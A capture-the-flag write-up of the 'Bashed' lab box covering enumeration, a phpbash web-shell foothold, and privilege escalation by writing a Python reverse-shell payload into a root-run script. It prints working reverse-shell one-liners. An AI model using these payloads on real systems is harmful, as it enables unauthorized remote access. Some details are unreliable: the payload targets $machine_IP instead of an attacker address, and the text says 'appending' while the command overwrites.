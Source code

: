 # Bashed - Linux (Easy)

## Summary

This box is inspired by [Phpbash by Arrexel](https://github.com/Arrexel/phpbash), a standalone, semi-interactive web shell. This is a fairly quick and straightforward box and as a result, this will be a relatively short writeup. 

### Enumeration

I began Enumeration by running a Nmap script on the target which only indicated that HTTP (Port 80) was worth checking out. 

```
sudo nmap -sV -sC -A -T4 $machine_IP -vv

-sV Version Scan
-sC - Script Scan
-A - Aggresive Scan
-T4 - Aggresive Timing Template
-vv - very verbose
```

![nmap1](Images/nmap_1.png)

![nmap2](Images/nmap_2.png)

### Gobuster Recon

Enumerating Port 80, I ran Gobuster on the target, specifying certain extensions - `.php, .js, .html, .txt`

```
sudo gobuster dir -u "$machine_IP" -w "wordlist" -t50 -x php,js,html,txt

"-w" - specify wordlist
"-t 50" - 50 Threads
"-x" - flag to specify directory extensions
```

![gobuster](Images/gobuster.png)

This provided a variety of directories mapped to the target. Meanwhile, I manually crawled the target and making the connection between the [GitHub Repo](https://github.com/Arrexel/phpbash) and the target set me up well for what was to come.

![webpage](Images/webpage.png)

Traversing through the results of the Gobuster scan led me to `/dev` which contained `phpbash.php`. 

![phpbash](Images/phpbash.png)

Executing Phpbash gave me a web based shell providing me with a `www-data` user foothold with the `user.txt` flag being present

![php_shell](Images/php_shell.png)

Despite getting a user shell, it is important to note that this is all still being done on the web shell. The next step en route to Privilege Escalation is to upgrade the web shell to one that is interactive from the attacker's machine. This is done by running the following reverse shell on the victim piped to a particular port while having a netcat listener on the attacker's machine on the same port. 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$machine_IP","LPORT"));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

The shell received is less than stable so I spawned a TTY shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

![shell_upgrade](Images/shell_upgrade.png)

## Privilege Escalation

After getting the user flag, I ran `sudo -l` on the target to identify what can be run as the root user, which shows that the user can run the `scriptmanager` scripts without requiring root access.

![user.txt](Images/user.txt.png)

I was able to move to the `scriptmanager` directory with the following command to get a bash shell 

```
sudo -u scriptmanager /bin/bash
```

After getting access to the scripts in the directory, I recycled the reverse shell payload by changing the LPORT number from the initial reverse shell to get user foothold and appending it to the end of `cool.py`.

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$machine_IP\","LPORT"));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > cool.py
```

![privesc](Images/privesc.png)

To catch the shell, I had a netcat listener on the same port, which allowed me to get a root shell and capture the root flag.

![root_shell](Images/root_shell.png)

![root.txt](Images/root.txt.png)

### Completion

![cert](Images/cert.png)